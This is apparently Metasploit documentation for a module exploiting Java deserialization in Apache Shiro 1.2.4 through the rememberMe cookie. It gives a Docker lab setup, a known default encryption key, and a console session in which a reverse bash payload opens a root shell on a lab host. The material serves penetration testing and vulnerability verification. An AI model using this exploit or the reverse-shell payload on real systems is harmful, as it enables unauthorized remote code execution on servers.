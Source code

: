 ## Vulnerable Application

### Description

Apache Shiro v1.2.4 is vulnerable to a Java deserialization vulnerability. An
unauthenticated user can submit a YSoSerial payload to the Apache Shiro web
server as the value to the `rememberMe` cookie. This will result in code
execution in the context of the web server.

The YSoSerial `CommonsCollections2` payload is known to work and is the one
leveraged by this module.

Note that other versions of Apache Shiro may also be exploitable if the
encryption key used by Shiro to encrypt `rememberMe` cookies is known.

### Setup

You can use <https://github.com/Medicean/VulApps/tree/master/s/shiro/1>.

1. Pull the docker image
    * `docker pull medicean/vulapps:s_shiro_1`
2. Run the docker image, binding to port 8080
    * `docker run --rm -p 8080:8080 medicean/vulapps:s_shiro_1`

## Verification Steps

1. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
2. `set rhosts <rhost>`
3. `run`

## Options
**ENC_KEY**
The encryption key the target Apache Shiro server is using to encrypt its `rememberMe` cookies.

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf6 > use exploit/multi/http/shiro_rememberme_v124_deserialize
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > show options

Module options (exploit/multi/http/shiro_rememberme_v124_deserialize):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   ENC_KEY    kPH+bIxk5D2deZiIxcaaaA==  yes       Shiro encryption key
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       Base directory path
   VHOST                                no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command payload


msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > set RHOSTS 172.18.0.2
RHOSTS => 172.18.0.2
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:60632) at 2020-12-21 17:09:27 -0600

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
